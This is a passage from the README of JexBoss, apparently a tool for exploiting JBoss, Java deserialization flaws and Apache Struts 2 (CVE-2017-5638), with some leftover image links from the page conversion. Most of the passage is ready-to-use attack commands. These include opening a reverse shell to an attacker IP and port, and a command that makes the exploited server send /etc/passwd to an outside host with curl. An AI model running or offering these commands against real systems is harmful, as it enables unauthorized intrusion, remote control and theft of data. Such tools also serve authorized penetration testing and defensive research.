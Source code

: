 -   Results and recommendations:

![alt
tag](./resource/JexBoss-JBoss(andothersJavaDeserializationVulnerabilities)verifyandEXploitationTool/media/rId39.png)

Reverse Shell (meterpreter integration)
---------------------------------------

After you exploit a JBoss server, you can use the own jexboss command
shell or perform a reverse connection using the following command:

       jexremote=YOUR_IP:YOUR_PORT

       Example:
         Shell>jexremote=192.168.0.10:4444

-   Example:    ![alt
    tag](./resource/JexBoss-JBoss(andothersJavaDeserializationVulnerabilities)verifyandEXploitationTool/media/rId41.jpg){width="5.833333333333333in"
    height="1.895372922134733in"}

When exploiting java deserialization vulnerabilities (Application
Deserialization, Servlet Deserialization), the default options are: make
a reverse shell connection or send a commando to execute.

Usage examples
--------------

-   For Java Deserialization Vulnerabilities in a custom HTTP parameter
    and to send a custom command to be executed on the exploited server:

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'

-   For Java Deserialization Vulnerabilities in a custom HTTP parameter
    and to make a reverse shell (this will ask for an IP address and
    port of your remote host):

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name

-   For Java Deserialization Vulnerabilities in a Servlet (like
    Invoker):

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize

-   For Apache Struts 2 (CVE-2017-5638)

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2
